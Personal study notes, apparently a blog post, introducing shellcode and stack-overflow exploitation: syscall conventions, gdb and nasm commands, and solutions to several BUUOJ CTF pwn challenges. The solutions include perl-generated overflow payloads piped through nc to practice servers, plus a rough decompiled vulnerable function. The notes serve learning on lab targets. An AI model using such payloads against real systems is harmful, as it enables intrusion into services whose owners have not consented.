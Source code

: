 ```yaml
---
layout: post
title:  "shellcode入门"
date:   2020-07-11 12:15:38 +0800
---
```


# Introduction

- stack overflow
- heap overflow
- format string

## Linux syscall

```shell
/usr/include/asm/unistd_32.h
/usr/include/x86_64-linux-gnu/asm/unistd_32.h
/usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

- via interrupt
  - syscall number -> EAX
  - arguments -> EBX, ECX, EDX, ESI, EDI, EBP
  - int 0x80
  - fastcall
- libc(not portable, why?)

# *BSD syscall

- via interrupt
  - syscall number -> EAX
  - arguments -> stack
  - push one more dword
  - int 0x80
  - clean up stack

# Shellcode

gcc -o get_shell get_shell.c -fno-stack-protector -z execstack -m32


# commands
## gdb

1. run with piped input: run < <(echo 1)
2. disas
3. b
4. si and ni
5. force gdb to disassemble address: disas ADDR, +COUNT

## nasm

1. assemble for x86_64: nasm -f elf64 xx.asm

# BUUOJ PWN
0. Preparation
   1. file xxx
      1. arch, stripped?
   2. checksec
1. ida system("/bin/sh");
   1. perl -e 'print "ls\ncat flag\n"' | nc node3.buuoj.cn 26334
2. rip
   1. existing 'system("/bin/sh")'
   2. segfault?
3. warmup_csaw_2016
   1. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | nc node3.buuoj.cn 29619`
4. pwn1
   1. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | nc node3.buuoj.cn 25859`
   2. source: `I` -> `you`
5. ciscn_2019_n_1
   1. floating point number comparison
      1. xmm registers, saturation arithmetic and clamping
      2. SIMD instructions
   2. 11.28125: sizeof(float)=4, memory={0x00 0x80 0x34 0x41}
   3. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | nc node3.buuoj.cn 25060`
6. ciscn_2019_c_1
   1. encrypt:
      1. [0x7b, ] -> c
      2. [0x61, 0x7a] -> c ^= 0x0d
      3. [0x5B, 0x60] -> c
      4. [0x41, 0x5A] -> c ^= 0x0e
      5. [0x30, 0x40] -> c ^= 0x0f
      6. [, 0x2F] -> c


## Source
### 4. pwn1
```c
std::string input;

void vuln() {
  char v3c[/*???*/];
  std::string local;
  fgets(v3c, 0x20, STDIN);
  input = v3c;
  replace(local, input, std::string("I"), std::string("you"))
  input = local
  strcpy(input.c_str(), v3c);
}

int replace(std::string& a0, std::string& a4, const std::string& a8, const std::string& ac) {
  while (true) {
    unsigned int index = a4.find(a8, 0);
    if (index == 0xffffffff)
      break;

    iterator v34 = a4.begin() + a4.find(a8, 0);
    std::string v44(a4.begin(), v34, v3d);

    iterator v14 = a4.begin() + a4.find(a8, 0) + a8.length();
    std::string v48(v14, a4.end(), v29);

    std::string v10= v44+ac+v48;
    a4=v10;
  }
  a0=a4;
}

# Diffs between x86 and x86_64 in ROP

## x86_64
## 